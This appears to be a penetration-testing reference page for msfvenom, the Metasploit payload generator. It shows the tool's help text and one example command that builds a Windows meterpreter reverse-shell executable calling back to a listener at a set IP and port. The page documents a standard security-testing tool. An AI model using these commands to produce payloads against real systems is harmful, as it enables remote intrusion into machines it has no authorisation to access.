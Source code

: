 ```yaml
---
title : "MSFvenom"
# pre : ' '
description : "MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015."
date : 2021-07-06T15:27:20+02:00
# hidden : true
# draft : true
weight : 240
# tags : ['']
---
```


---

Is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015.

## Installation

Install the [MetaSploit framework]({{< ref "metasploit/" >}}).

## Usage

```plain
msfvenom [options] <var=val>
```

## Flags

```plain
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

## Examples

Simple non-meterpreter staged payload for Windows.

```plain
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.9.3.93 LPORT=1235 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

## URL List

- [Offensive-Security.com - MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
- [Infinitelogins.com - MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
